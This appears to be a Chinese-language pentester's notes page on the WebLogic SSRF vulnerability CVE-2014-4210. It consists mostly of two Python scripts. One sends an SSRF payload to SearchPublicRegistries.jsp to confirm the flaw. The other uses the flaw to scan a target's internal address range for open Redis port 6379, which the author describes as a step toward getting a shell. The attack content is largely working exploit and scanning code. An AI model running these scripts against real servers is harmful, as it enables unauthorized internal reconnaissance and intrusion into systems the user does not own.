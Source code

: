 ```yaml
---
title:weblogic ssrf 漏洞笔记
tags:weblogic
---
```




# [weblogic ssrf 漏洞笔记]



**CVE-2014-4210**

　　Oracle WebLogic web server即可以被外部主机访问，同时也允许访问内部主机。比如有一个jsp页面SearchPublicReqistries.jsp，我们可以利用它进行攻击，未经授权通过weblogic server连接任意主机的任意TCP 端口，可以能冗长的响应来推断在此端口上是否有服务在监听此端口。（ps:本人觉得挺鸡肋的，要是目标机没开redis的6379端口没法getshll了。当然也是自己太菜）

**1.weblogic_ssrf.py（仅能用来判断是否有该漏洞）**

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: weblogic SSRF漏洞(CVE-2014-4210)
referer: http://blog.gdssecurity.com/labs/2015/3/30/weblogic-ssrf-and-xss-cve-2014-4241-cve-2014-4210-cve-2014-4.html
author: Lucifer
description: weblogic 版本10.0.2 -- 10.3.6中SearchPublicRegistries.jsp，参数operator可传入内网IP造成SSRF漏洞
'''
import sys
import warnings
import requests
from termcolor import cprint

class weblogic_ssrf_BaseVerify:
    def __init__(self, url):
        self.url = url

    def run(self):
        headers = {
        "User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"
        }
        payload = "/uddiexplorer/SearchPublicRegistries.jsp?operator=http://localhost/robots.txt&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search"
        vulnurl = self.url + payload
        try:
            req = requests.get(vulnurl, headers=headers, timeout=10, verify=False)

            if r"weblogic.uddi.client.structures.exception.XML_SoapException" in req.text and r"IO Exception on sendMessage" not in req.text:
                cprint("[+]存在weblogic SSRF漏洞...(中危)\tpayload: "+vulnurl, "yellow")

        except:
            cprint("[-] "+__file__+"====>连接超时", "cyan")

if __name__ == "__main__":
    warnings.filterwarnings("ignore")
    testVuln = weblogic_ssrf_BaseVerify(sys.argv[1])
    testVuln.run()
```



![](https://i.loli.net/2019/01/08/5c34357a4e719.png)



**2.利用UDDI Explorerc查看内网ip段**

　　如下图可知目标机的内网IP为127.0.0.1

![](https://i.loli.net/2019/01/08/5c3435d3aaec3.png)

**3.利用weblogic_redisscan.py扫描内网是否有6379端口，也就是redis服务**

```python
#!/usr/bin/python
    # -*- coding: utf-8 -*-
     
    import httplib
    import  time
    from colorama import init,Fore
    init(autoreset=True)
    ips = ['127.0.0.']
    for j in ips:
        for i in range(1,255):
            try:
                print Fore.BLUE+'[-]Check '+j+str(i)
                conn = httplib.HTTPSConnection('xx.bbbb.com',80,timeout=5)
                conn.request(method="GET",url="/uddiexplorer/SearchPublicRegistries.jsp?operator=http://"+j+str(i)+\
                            ":6379&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search")
                conn.getresponse().read()
                conn.close()
                try:
                    conn = httplib.HTTPSConnection('xx.bbbb.com',80,timeout=5)
                    conn.request(method="GET",url="/uddiexplorer/SearchPublicRegistries.jsp?operator=https://"+j+str(i)+\
                                ":6379&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search")
                    conn.getresponse().read()
                    conn.close()
                    time.sleep(4)
                except:
                    print Fore.RED+'[+] '+j+str(i)+':6379 is open'
                    time.sleep(4)
            except:
                time.sleep(4)
```




